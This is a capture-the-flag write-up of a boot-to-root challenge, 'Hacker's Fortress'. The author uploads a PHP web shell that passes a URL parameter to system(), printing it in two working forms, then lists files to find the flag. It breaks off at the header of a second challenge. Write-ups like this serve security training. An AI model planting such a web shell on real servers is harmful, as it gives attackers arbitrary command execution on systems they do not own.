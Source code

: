 
----



**Category** - **Boot To Root**  
**Challenge** - **Hacker's Fortress**  

> In this boot-to-root exercise, participants will need to leverage their skills in file uploading and privilege escalation to uncover a hidden flag. The challenge simulates a real-world scenario where unauthorized access to a server must be achieved to find sensitive information.
> 
> http://35.208.110.64


At starting i got fooled & tired many thing's like jpg, png, jpg for shell. That didn't worked. What i did is uploded a php shell 

```php
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
```

```HTML
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
 Just upload this & then open your uploded file in /uploads. And see what file are existing on server  & Hidden file tooo. **ls -a**
Hheheh we got a flag   **CTF{3sc4l4t3d_t0_r00t}**



-------

**Category** - **web**  
**Challenge** - **Hashing Numbers**
